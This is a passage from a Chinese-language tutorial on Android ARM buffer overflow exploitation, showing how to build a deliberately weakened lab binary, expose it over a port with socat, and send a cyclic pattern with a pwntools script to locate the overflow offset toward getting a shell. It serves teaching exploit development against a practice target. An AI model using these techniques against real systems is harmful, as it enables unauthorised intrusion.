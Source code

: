 我们的目标是在不使用密码的情况下，获取到shell。为了减少难度，我们先将stack canary去掉（在JNI目录下建立`Application.mk`并加入`APP_CFLAGS += -fno-stack-protector`）。随后用ndk-build进行编译。然后将level6文件拷贝到`"/data/local/tmp"`目录下。接下来我们把这个目标程序作为一个服务绑定到服务器的某个端口上，这里我们可以使用socat这个工具来完成。最后我们再做一个端口转发，准备工作就算完成了。基本命令如下：

```
#!bash
ndk-build
adb push libs/armeabi/level6 /data/local/tmp/
adb shell
cd /data/local/tmp/
./socat TCP4-LISTEN:10001,fork EXEC:./level6
adb forward tcp:10001 tcp:10001
```

现在我们尝试连接一下：

```
#!bash
$ nc 127.0.0.1 10001
Hello, World
```

发现工作正常。OK，那么我们开始进行BOF吧。

和之前的x86一样，我们先用pattern.py来确定溢出点的位置。我们用命令：

```
#!bash
python pattern.py create 150 
```

来生成一串测试用的150个字节的字符串：

```
#!bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
```

然后我们写一个py脚本来发送这串数据。

```
#!python
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

raw_input()

payload = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9"

p.send(payload)

p.interactive()
```
